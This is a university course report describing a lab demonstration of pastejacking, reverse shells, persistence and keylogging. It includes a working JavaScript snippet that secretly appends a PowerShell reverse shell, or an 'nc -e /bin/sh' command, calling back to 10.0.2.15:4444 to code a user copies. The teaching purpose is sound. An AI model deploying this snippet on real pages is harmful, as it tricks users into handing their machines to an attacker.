

# Cybersecurity Report (Marco Losso) 

## Introduction

This report presents a comprehensive demonstration of a cybersecurity project conducted for a university course. The project was executed in a controlled and safe environment, strictly for educational purposes.

The demo explores the technique of pastejacking, a method often employed by cyber attackers to manipulate the clipboard content of a user, leading to the execution of unintended commands. In this demonstration, pastejacking was used to spawn a reverse shell from a Windows Server 2008 system (with metasploit) to a Kali Linux system. A reverse shell essentially opens a pathway for the attacker's system to communicate with the victim's system, providing control over the victim's system.

Once the reverse shell was established, a persistence mechanism was implemented. This ensured that the victim's system would automatically reconnect to the attacker's machine after every restart, maintaining the established connection over time.

Further, the reverse shell was leveraged to download a keylogger onto the victim's system. A keylogger is a tool that records the keystrokes on a system, providing valuable information like usernames, passwords and card numbers to the attacker.

This report aims to provide a detailed walkthrough of these processes, shedding light on the intricacies of these techniques.


## Pastejacking

Pastejacking is a technique that manipulates the clipboard content of a user, leading them to execute unintended commands. This technique takes advantage of the trust users place in their clipboard, and the fact that terminal commands can be executed without providing a visual indication of their full content.

In this project, a simple webpage was created using HTML. This webpage presented users with a block of code that they could copy and execute in their terminal. However, the actual content copied to the clipboard included additional code that spawned a reverse shell. This is the essence of pastejacking - what you see is not always what you get.

An important feature of the webpage is its ability to identify the operating system of the user's machine. This allows the malicious code to be tailored to the specific system, increasing the likelihood of successful exploitation. For the purposes of this project, the target system was chosen to be Windows.

The process can be broken down into the following steps:

1. **Creating the Webpage**: A simple webpage was created with a block of seemingly innocuous code that users are prompted to copy. This could be presented as a solution to a common problem, enticing users to copy the code.



2. **Implementing Pastejacking**: Through the use of JavaScript, the actual content that gets copied is manipulated. When users copy the code, additional malicious code is appended or prepended. In this case, the additional code spawns a reverse shell when pasted into the terminal.

```js
$('#copyButton').on('click', function(e) {
            var original = $('#code').text();
            var appended;
            if(navigator.platform.indexOf("Win") !=-1) {
                
                appended = original + '; Start-Job -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient(\'10.0.2.15\',4444);
                                                                  $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
                                                                  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
                                                                      $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
                                                                      $sendback = (iex $data 2>&1 | Out-String );
                                                                      $sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';
                                                                      $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
                                                                      $stream.Write($sendbyte,0,$sendbyte.Length);
                                                                      $stream.Flush()};
                                                                  $client.Close();  }; ';
            } else {

                appended = 'nc - e /bin/sh 10.0.2.15 4444; ' + original;
            }
```

3. **Executing the Malicious Code**: The user, believing they have copied the visible code, pastes the content into their terminal and executes it. This not only runs the expected commands but also the hidden malicious code.

4. **Spawning the Reverse Shell**: The malicious code opens a reverse shell, providing a backdoor into the user's system.


This demonstration serves as a reminder of the potential dangers of copying code from untrusted sources and executing it in the terminal. It emphasizes the importance of understanding the code you're executing and using trusted sources.
